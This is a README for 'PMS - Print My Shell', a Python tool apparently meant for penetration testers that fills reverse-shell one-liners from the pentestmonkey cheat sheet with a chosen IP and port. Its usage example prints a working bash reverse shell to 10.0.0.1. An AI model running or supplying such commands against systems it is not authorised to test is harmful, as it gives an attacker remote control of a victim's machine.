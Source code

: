 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specifile your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```-t --type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-i --ip```: *optional*, IP address\
```-p --port```: *optional* port number\


Usage
----------------
```sh
$ python3 pms.py --type bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
